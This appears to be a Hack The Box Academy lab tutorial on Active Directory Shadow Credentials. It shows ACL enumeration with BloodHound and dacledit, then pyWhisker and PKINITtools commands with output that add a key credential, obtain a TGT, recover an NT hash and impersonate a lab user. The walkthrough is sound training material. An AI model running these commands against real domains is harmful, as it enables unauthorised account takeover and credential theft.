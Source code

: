 
---
---
## Enumeration from Linux

To identify if we have an account with `GenericAll`, `GenericWrite`, over the target, or `WriteProperty` over the target's `msDS-KeyCredentialLink` attribute, we can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1), [BloodHound](https://github.com/SpecterOps/BloodHound), [dacledit](https://github.com/ShutdownRepo/impacket/tree/dacledit), and any other tool that allows us to retrieve ACL information out of Active Directory.

Let's start with [BloodHound](https://github.com/SpecterOps/BloodHound) and connect to the target machine using RDP with Jeffry's credentials.

To collect the data, we will use [SharpHound](https://github.com/BloodHoundAD/SharpHound):

```powershell
PS C:\Tools\SharpHound CE> .\SharpHound.exe -c All
```

We must import the SharpHound output file into BloodHound and then search for a path from Jeffry (the account we control) to any other account. Let's check the path from Jeffry to Gabriel:

![text](https://academy.hackthebox.com/storage/modules/255/jeffry_genericAll_gabriel.png)

There's also a path from Jeffry to Monic with `AddKeyCredentialLink`, this means that Jeffry has WriteProperty to this attribute:

![text](https://academy.hackthebox.com/storage/modules/255/jeffry_addkeycredentiallink_monic.png)


Alternatively, if we are working from Linux, we can also use [dacledit.py](https://raw.githubusercontent.com/ShutdownRepo/impacket/dacledit/examples/dacledit.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD) to search for those rights.

### Installing dacledit.py

To install dacledit we will clone [ShutdownRepo impacket's repository](https://github.com/ShutdownRepo/impacket/tree/dacledit), create a python virtual environment to avoid conflict between the original Impacket installation and this branch, and install the fork impacket repository:

```shell
anas21@htb[/htb]$ git clone https://github.com/ShutdownRepo/impacket -b dacledit
```

```shell
anas21@htb[/htb]$ cd impacket
anas21@htb[/htb]$ python3 -m venv .dacledit
anas21@htb[/htb]$ source .dacledit/bin/activate
```

Now, in the following example, we will query what rights the user Jeffry has over the target account, Gabriel:

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -target gabriel -principal jeffry -dc-ip 10.129.228.236 lab.local/jeffry:Music001
```

As the command's output shows, Jeffry has `FullControl` over the target account, Gabriel.

---
---
## Attacking Shadow Credentials from Linux

We will use [pyWhisker](https://github.com/ShutdownRepo/pywhisker) to abuse the Shadow Credentials from Linux, a Python equivalent of the original `Whisker`. It is based on `Impacket` and a Python equivalent of [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) called [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Using this tool along with [Dirk-jan's PKINITtools](https://github.com/dirkjanm/PKINITtools) enables complete exploitation from a UNIX-based systems.

```shell
anas21@htb[/htb]$ git clone -q https://github.com/ShutdownRepo/pywhisker
```

To use `pywhisker`, we need to provide the credentials of the account we control and have rights over the target account. We can use the option `--target <account>` and the option `--action add` to perform the Shadow Credential attack:

```shell
anas21@htb[/htb]$ python3 pywhisker.py -d lab.local -u jeffry -p Music001 --target gabriel --action add
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a37a618e-ac85-4053-3519-12bf69744e5b
[*] Updating the msDS-KeyCredentialLink attribute of gabriel
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: BX4EWk8m.pfx
[*] Must be used with password: KQAx5lHP3h9TtzNly2Us
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

The output provides us with three essential things: the `KeyCredential DeviceID,` the name of the certificate (in this case, `BX4EWk8m.pfx`), and the certificate's password `KQAx5lHP3h9TtzNly2Us`. We can use those values with `PKINITtools` to get a TGT as `Gabriel`, but before that, let's install `PKINITtools`:

```shell
anas21@htb[/htb]$ git clone -q https://github.com/dirkjanm/PKINITtools
anas21@htb[/htb]$ pip3 install impacket minikerberos                          
Requirement already satisfied: impacket in /usr/local/lib/python3.9/dist-packages/impacket-0.11.0-py3.9.egg (0.11.0)
Collecting Minikerberos
 Downloading minikerberos-0.4.4-py3-none-any.whl (147 kB)
   |████████████████████████████████| 147 kB 1.8 MB/s 
...SNIP... 
```

`gettgtpkinit.py` is one of the tools available in `PKINITtools`, that will help us generate the TGT. We will use the option `-cert-pfx <certificate file>` as well `-pfx-pass <password>` to specify the password, and finally the value of `domain/username` and the ccache filename:

```shell
anas21@htb[/htb]$ python3 gettgtpkinit.py -cert-pfx ../pywhisker/BX4EWk8m.pfx -pfx-pass KQAx5lHP3h9TtzNly2Us lab.local/gabriel gabriel.ccache
```

If we provide the correct parameters, we will have a file named `gabriel.ccache` that represents the TGT to be used in Linux. The output of `gettgtpkinit.py` also has the `AS-REP encryption key` we can use to decrypt the ticket and extract Gabriel's NT Hash. We need to use the tool `getnthash.py` available in `PKINITtools` and add the option `-key <key>`, and we also need to use the TGT. To do that we will use `KRB5CCNAME=gabriel.ccache` before running Python, so the following command uses this variable and loads the TGT:

```shell
anas21@htb[/htb]$ KRB5CCNAME=gabriel.ccache python3 getnthash.py -key 46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a lab.local/gabriel 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
2d1da879ca7100325629...SNIP...
```

The above output shows Gabriel NT Hash. We can use the NT hash or the TGT to impersonate Gabriel as follows:

```shell
anas21@htb[/htb]$ KRB5CCNAME=gabriel.ccache smbclient.py -k -no-pass LAB-DC.LAB.LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
...SNIP...
#
```

---
---
